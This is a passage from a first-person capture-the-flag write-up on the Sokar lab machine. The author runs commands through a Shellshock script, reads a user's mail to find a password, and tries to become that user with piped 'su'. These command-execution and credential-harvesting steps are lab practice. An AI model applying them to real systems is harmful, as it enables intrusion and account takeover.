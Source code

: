 Later, some more enumeration finally got me to `/var/spool/mail/bynarr` with a message with the following contents:

```text
leonjza@kali/sokar $ python shock.py "/bin/cat /var/spool/mail/bynarr"
 * Executing /bin/cat /var/spool/mail/bynarr

Return-Path: <root@sokar>
Delivered-To: bynarr@localhost
Received:  from root by localhost
To: <bynarr@sokar>
Date: Thu, 13 Nov 2014 22:04:31 +0100
Subject: Welcome

Dear Bynarr.  Welcome to Sokar Inc. Forensic Development Team.
A user account has been setup for you.

UID 500 (bynarr)
GID 500 (bynarr)
    501 (forensic)

Password 'fruity'.  Please change this ASAP.
Should you require, you've been granted outbound ephemeral port access on 51242, to transfer non-sensitive forensic dumps out for analysis.

All the best in your new role!

  -Sokar-
```

I confirmed that `bynarr` was in the groups mentioned in the mail:

```bash
leonjza@kali/sokar $ python shock.py "/usr/bin/id bynarr"
 * Executing /usr/bin/id bynarr

uid=500(bynarr) gid=501(bynarr) groups=501(bynarr),500(forensic)
```

What confused me here was the mention of *"outbound ephemeral port access on 51242"*. I reduced my port scanners range to only scan from 51240 to 51250 to confirm this. I transferred the updated port scanner to Sokar, opened up a new `tcpdump` session and waited anxiously. `tcp/51242` outbound still appeared to be closed.

Of course, the most valuable piece of information was definitely the password *fruity*. Now, remember, I have a limited shell. Not a interactive one. I have been interfacing with Sokar only via python scripts which are executing commands via Shellshock HTTP requests.

Essentially, the easiest way for me to become `bynarr` (assuming *fruity* really is the password), would be to `su` right? Sounds like a 2 sec job. Well, it wasn’t :( Instead, I got caught up in a whole bunch of interesting situations where `su` expects a password via `stdin`, requires a valid tty (which I don’t have) and will spawn a shell for me to interact with (which I can't). Quite some time later, I got closer to becoming `bynarr` with something like `echo fruity | su bynarr`. To add to the pain, my shellshock shell also did not have a proper environment, so I had to prefix most commands with their full paths. Luckily though `$(which id)` came in very handy and saved some time. In retrospect, I could have probably just exported `PATH` as required, but heh.

